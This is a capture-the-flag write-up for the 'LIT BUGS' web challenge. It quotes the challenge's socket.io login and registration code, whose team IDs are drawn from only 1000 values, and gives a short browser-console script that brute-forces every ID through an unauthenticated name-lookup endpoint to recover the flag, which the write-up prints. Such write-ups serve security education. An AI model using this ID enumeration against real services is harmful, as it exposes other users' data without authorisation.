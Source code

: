 # web/LIT BUGS (92 solves / 129 points)
## Description
Last year’s LIT platform may or may not have had some security vulnerabilities. We have created a simplified version of last year’s platform called LIT BUGS (Lexington Informatics Tournament’s Big Unsafe Grading System). The flag is the team name of the only registered user. Visit LIT BUGS [here](http://websites.litctf.live:8000/)
Downloads:
[LIT Bugs.zip](https://drive.google.com/uc?export=download&id=1KH4xaRabJVIFFfmNKxep5ZLFH24muqHy)

## Solution:
When I clicked the link the description I was presented with a website that looks a lot like the current ctf website. This website has only a home page, a register page, a login page, and a contest page. 
After analyzing the source code given, I found that the website uses websockets for the register and login functions. In addition to this, there is also an endpoint that returns a teams name when given their ID.

####Relevant code: 

	io.on('connection',(socket) => {
		socket.on('login',(tn,pwd) => {
			if(accounts[tn] == undefined || accounts[tn]["password"] != md5(pwd)) {
				socket.emit("loginRes",false,-3);
				return;
			}
			socket.emit("loginRes",true,accounts[tn]["rand_id"]);
			return;
		});

		socket.on('reqName',(rand_id) => {
			name = id2Name[parseInt(rand_id)];
			socket.emit("reqNameRes",name);
		});

		socket.on('register',(tn,pwd) => {
			if(accounts[tn] != undefined) {
				socket.emit("regRes",false,-1);
				return;
			}
			if(Object.keys(accounts).length >= 500) {
				socket.emit("regRes",false,-2);
				return;
			}
			var rand_id = Math.floor(Math.random() * 1000);
			while(id2Name[rand_id] != undefined) {
				rand_id = Math.floor(Math.random() * 1000);
			}
			accounts[tn] = {
				"password": md5(pwd),
				"rand_id": rand_id
			};
			id2Name[rand_id] = tn;
			socket.emit("regRes",true,rand_id);
		});
	});

As you can see from this code, ID's are generated by taking a random number from 1 to 1000. With only 1000 possible ID's, this is well within bruteforcing range. The endpoint that allows name lookup based on ID's should be vulnerable to a bruteforce attack, as the flag is the name of a team. I made a short JS script to run in my browser's JS console which bruteforced all 1000 ID's:
socket.on("reqNameRes",(name)=>{
	console.log(name)
});
for(var i = 0;i<1000;i++){
	socket.emit("reqName",i)
}
This worked, and after looking through the results, I found the following flag:

## Flag
flag{if_y0u_d1d_not_brut3force_ids_plea5e_c0ntact_codetiger}
